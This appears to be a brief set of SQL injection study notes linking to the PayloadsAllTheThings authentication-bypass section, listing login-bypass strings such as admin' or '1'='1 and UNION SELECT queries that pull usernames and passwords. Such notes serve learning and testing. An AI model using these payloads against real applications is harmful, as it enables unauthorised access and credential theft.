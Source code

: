 
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

Using OR for authentication bypass
```SQL
admin' or '1'='1
```

Using comments for authentication bypass
```SQL
admin'--
```

Union statements
```SQL
SELECT * FROM ports UNION SELECT * FROM ships;
```
```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```
```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

